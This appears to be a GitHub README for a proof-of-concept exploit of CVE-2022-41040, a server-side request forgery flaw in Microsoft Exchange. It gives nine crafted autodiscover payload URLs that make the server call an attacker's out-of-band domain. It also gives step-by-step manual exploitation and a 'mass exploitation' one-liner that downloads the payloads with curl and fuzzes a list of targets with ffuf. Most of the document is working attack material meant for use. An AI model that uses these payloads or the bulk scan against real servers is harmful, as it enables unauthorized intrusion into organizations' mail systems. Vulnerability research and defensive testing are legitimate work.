 # CVE-2022-41040-POC
CVE-2022-41040 - Server Side Request Forgery (SSRF) in Microsoft Exchange Server

## Manual exploiation 

1. Replace `COLLABHERE` with your OOB domain - `sed 's/COLLABHERE/<oob-domain>/g`

2. Add payloads next to URLs you want to test - `echo http://target.com|unfurl format %s://%d/<payload>`

3. Visit crafted URLs

4. Check your collaborator

Payloads:
```
/autodiscover/autodiscover.json?@%d.v1.COLLABHERE/&Email=autodiscover/autodiscover.json%3f@%d.v1.COLLABHERE
/autodiscover/autodiscover.json/v1.0/aa@%d.v2.COLLABHERE?Protocol=Autodiscoverv1
/autodiscover/autodiscover.json/v1.0/aa..@%d.v3.COLLABHERE/owa/?&Email=autodiscover/autodiscover.json?a..@%d.v3.COLLABHERE&Protocol=Autodiscoverv1&Protocol=Powershell
/autodiscover/autodiscover.json/v1.0/aa@%d.v4.COLLABHERE/owa/?&Email=autodiscover/autodiscover.json?a@%d.v4.COLLABHERE&Protocol=Autodiscoverv1&Protocol=Powershell
/autodiscover/autodiscover.json?aa..%d.v5.COLLABHERE/owa/?&Email=autodiscover/autodiscover.json?a..%d.v5.COLLABHERE&Protocol=Autodiscoverv1&%d.v5.COLLABHEREProtocol=Powershell
/autodiscover/autodiscover.json?aa@%d.v6.COLLABHERE/owa/?&Email=autodiscover/autodiscover.json?a@%d.v6.COLLABHERE&Protocol=Autodiscoverv1&%d.v6.COLLABHEREProtocol=Powershell
/autodiscover/autodiscover.json?aa..%d.v7.COLLABHERE/owa/?&Email=aa@autodiscover/autodiscover.json?a..%d.v7.COLLABHERE&Protocol=Autodiscoverv1&%d.v7.COLLABHEREProtocol=Powershell
/autodiscover/autodiscover.json?aa@%d.v8.COLLABHERE/owa/?&Email=aa@autodiscover/autodiscover.json?a@%d.v8.COLLABHERE&Protocol=Autodiscoverv1&%d.v8.COLLABHEREProtocol=Powershell
/autodiscover/autodiscover.json/v1.0/aa@autodiscover/autodiscover.json?a..@%d.v9.COLLABHERE&Protocol=Autodiscoverv1&Protocol=Powershell
```

## Mass exploitation

```
for url in $(curl -s https://gist.githubusercontent.com/kljunowsky/a2e8392f63fb8d7c0443f2011bce59ec/raw/7b4cabaa0dab7113b1cab00e1a2cb0c4e3c6ed06/cve-2022-41040-unfurl-payloads.txt|sed 's/COLLABHERE/<OOB-PAYLOAD>/g'); do cat targets.txt |unfurl format $url >> fuzz-ready.txt;done & ffuf -w fuzz-ready.txt -u FUZZ
```

Check your collaborator!

Happy hunting!

### Requirements
[ffuf](https://github.com/ffuf/ffuf)
Thanks [@joohoi](https://github.com/joohoi)!


[unfurl](https://github.com/tomnomnom/unfurl)
Thanks [tomnomnom](https://github.com/tomnomnom)!

[Twitter](https://twitter.com/milanshiftsec)

[LinkedIn](https://www.linkedin.com/in/milan-jovic-sec/)
